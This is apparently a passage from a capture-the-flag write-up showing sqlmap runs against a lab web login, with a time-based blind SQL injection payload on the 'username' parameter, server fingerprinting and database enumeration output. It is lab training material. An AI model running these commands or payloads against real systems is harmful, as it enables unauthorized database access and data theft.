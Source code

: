 ```
sqlmap -r 1.txt --batch --dbs
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.6.7#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:36:13 /2022-09-04/

[20:36:13] [INFO] parsing HTTP request from '1.txt'
[20:36:14] [INFO] resuming back-end DBMS 'mysql'
[20:36:14] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test' AND (SELECT 1720 FROM (SELECT(SLEEP(5)))imDO) AND 'CRGb'='CRGb&password=test&submit=submit
---
[20:36:14] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 12.10 or 12.04 or 13.04 (Precise Pangolin or Quantal Quetzal or Raring Ringtail)
web application technology: PHP 5.3.10, Apache 2.2.22
back-end DBMS: MySQL >= 5.0.12
[20:36:14] [INFO] fetching database names
[20:36:14] [INFO] fetching number of databases
[20:36:14] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[20:36:36] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
4
[20:36:39] [INFO] retrieved:
[20:36:50] [INFO] adjusting time delay to 3 seconds due to good response times
information_schema
[20:40:40] [INFO] retrieved: THM_f0und_m3
[20:44:14] [INFO] retrieved: mysql
[20:45:21] [INFO] retrieved: performan^C


[*] ending @ 20:47:24 /2022-09-04/

```
```
sqlmap -r 1.txt --batch --tables -D THM_f0und_m3
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.6.7#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

```